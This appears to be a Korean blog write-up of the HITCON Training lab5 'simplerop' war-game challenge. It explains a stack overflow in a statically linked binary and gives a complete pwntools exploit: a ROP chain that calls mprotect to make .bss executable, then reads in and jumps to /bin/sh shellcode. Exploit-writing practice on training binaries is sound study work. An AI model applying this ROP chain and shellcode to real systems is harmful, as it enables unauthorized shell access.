 ```yaml
---
layout: post
title: "[HITCON Training] lab5"
comments : true
category : War Game
---
```


# 문제
***

해당 바이너리는 다음과 같이 구성되어 있다.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

근데 어셈블리어를 보면 메인 함수의 prologue에 ```and esp, 0xfffffff0 ``` 명령어가 있는 것을 볼 수 있다. 따라서 실제 v4의 위치는 ebp-0x14가 아니고 직접 확인해야 한다.

또한 해당 바이너리는 statically linked가 되어 있다. (system 함수와 execve 함수 등이 없기 때문에 쉘 코드 삽입을 통해서 exploit을 해야 한다.)  

 ## exploit 방법
NX  mprotect 함수를 통해 bss 영역에 rwx 권한을 부여하고 해당 영역에 shellcode를 삽입한다. 그리고 shellcode로 jmp하면 exploit을 할 수 있다. 
(bss 영역의 앞 쪽에 stdin 이나 stdout 등으로 쓰이는 변수가 저장되어 있기 때문에 bss + X 에 shellcode를 삽입하는게 좋음)
 
 
# 풀이

```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab5/simplerop"
nop="\x90"*50
shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"

p=process(file_path)
p.recvuntil("input :")

mprotect=0x806d870
read=0x806cd50
pppr=0x080b4f39

bss_sec=0x080eb000


pay="A"*32
pay+=p32(mprotect)
pay+=p32(pppr)
pay+=p32(bss_sec)
pay+=p32(0x1000)
pay+=p32(7)
pay+=p32(read)
pay+=p32(bss_sec)
pay+=p32(0)
pay+=p32(bss_sec)
pay+=p32(0x100)


p.send(pay)
time.sleep(0.1)
p.send(nop+shell)
p.interactive()

```

# 알게 된 것
***

1. mmap 함수
void * mmap(void *start, size_t length, int prot, int
        flags, int fd, off_t offset);

mmap 함수는 파일을 메모리에 대응시키는 함수이다. 즉, 메모리를 할당하고 fd에 대응되는 파일을 해당 메모리와 연결시키는 역할을 한다. 만약 fd 값이 -1이면 순수하게 메모리를 할당한다. 

여기서 start에 들어가는 주소는 page size의 배수여야 한다. 또한 이 주소는 할당되지 않은 메모리여야 한다. 


2. mprotect 함수 
 int mprotect(void *addr, size_t len, int prot);

mprotect의 addr도 mmap 함수와 마찬가지로 page size의 배수여야 한다. 그리고 이 주소는 이미 할당된 메모리의 주소여야 한다. 

3. bss 영역의 주소는 readelf -S [binary] 를 통해 알 수 있다.

